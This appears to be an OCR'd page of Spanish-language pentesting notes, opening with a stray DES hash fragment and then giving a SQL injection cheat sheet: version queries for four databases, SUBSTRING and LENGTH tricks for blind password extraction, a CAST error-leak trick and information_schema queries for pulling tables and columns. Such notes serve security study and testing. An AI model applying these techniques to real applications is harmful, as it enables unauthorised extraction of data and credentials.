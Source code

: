 El hasheo es de 13 caracteres
+ vjX9YIkiN3RL6
+ DES 13 chars 


************************************************************************************************
# SQL Injection

## Database version
~~~sql
-- Oracle
SELECT banner FROM v$version
SELECT version FROM v$instance
-- Microsoft
SELECT @@version
-- PostgreSQL
SELECT version()
-- MySQL
SELECT @@version
~~~

## Notas generales
~~~sql
-- Notas importantes
LIMIT 1 -- Trunca el resultado tras la primer coincidencia
WHERE ROWNUM = 1 -- Trunca el resultado tras la primer ORACLE

LENGTH(password) -- Longitud de la variable

SUBSTRING(password,1,1) -- (variable,posicion,cantidad_letras_a_extraer)
	-- hola
	SUBSTRING(password,1,1) -- h
	SUBSTRING(password,2,1) -- o
	SUBSTRING(password,2,3) -- ola

CAST((SELECT example_column FROM example_table) AS int) 
	-- ERROR: invalid input syntax for type integer: "Example data"
~~~

## Exfiltrado de información
~~~sql
SELECT table_name FROM information_schema.tables
SELECT column_name FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

SELECT YOUR_COLUMN_NAME||'~'||YOUR_COLUMN_NAME FROM YOUR_TABLE_NAME
~~~

## Basado en errores
